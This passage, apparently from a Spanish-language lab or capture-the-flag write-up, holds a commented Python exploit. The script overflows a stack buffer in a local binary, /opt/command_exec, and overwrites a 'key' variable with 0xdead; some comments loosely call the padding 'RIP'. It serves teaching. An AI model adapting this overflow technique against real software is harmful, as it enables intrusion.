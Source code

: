```python
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 5. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["/opt/command_exec"]

# 6. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

# 7. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 8. Esperamos a que termine el proceso.
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```

Si lo ejecutamos vemos lo siguiente:

```shell
python3 exploit.py
```
